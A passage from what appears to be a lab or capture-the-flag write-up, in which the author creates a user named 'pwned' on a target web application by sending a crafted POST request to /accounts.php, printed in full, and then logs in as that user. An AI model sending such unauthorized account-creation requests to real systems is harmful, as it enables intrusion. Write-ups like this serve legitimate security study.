 So I then decided to give it a shot and create my own user. 
<br>

### Create User - POST /accounts .php
---

![User-Creation](img/user-creation.png) 
<br>

```
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.104/login.php
DNT: 1
Connection: close
Cookie: PHPSESSID=[YOUR_COOKIE]
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

username=pwned&password=pwned&confirm=pwned
```
I then came back to `login.php` to try and login as my newly created user `pwned` with password `pwned`.
<br>
